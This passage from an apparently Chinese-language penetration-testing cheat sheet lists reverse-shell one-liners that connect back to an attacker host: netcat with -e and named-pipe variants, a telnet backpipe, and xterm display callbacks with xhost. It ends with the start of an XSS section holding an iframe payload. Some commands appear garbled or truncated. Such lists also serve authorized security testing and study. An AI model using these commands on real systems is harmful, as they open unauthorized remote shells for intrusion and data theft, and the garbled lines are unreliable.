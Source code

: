 p.waitFor()
```
NETCAT 反弹 Shell
```
nc -e /bin/sh attackerip 4444
nc -e /bin/sh 192.168.37.10 443

# 如果 -e 参数被禁用，可以尝试以下命令
# mknod backpipe p && nc attackerip 443 0<backpipe | /bin/bash 1>backpipe /bin/sh | nc attackerip 443
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4443 0/tmp/

# 如果你安装错了 netcat 的版本，请尝试以下命令
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip >/tmp/f
```
TELNET 反弹 Shell
```
# 如果 netcat 不可用或者 /dev/tcp
mknod backpipe p && telnet attackerip 443 0<backpipe | /bin/bash 1>backpipe
```
XTERM 反弹 Shell
```
# http://baike.baidu.com/view/418628.htm
# 开启 X 服务器 (:1 – 监听 TCP 端口 6001)
apt-get install xnest
Xnest :1

# 记得授权来自目标 IP 的连接
xterm -display 127.0.0.1:1

# 授权访问
xhost +targetip

# 在目标机器上连接回我们的 X 服务器
xterm -display attackerip:1
/usr/openwin/bin/xterm -display attackerip:1
or
$ DISPLAY=attackerip:0 xterm
```
XSS 备忘录
```
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
("< iframes > src=http://IP:PORT </ iframes >")
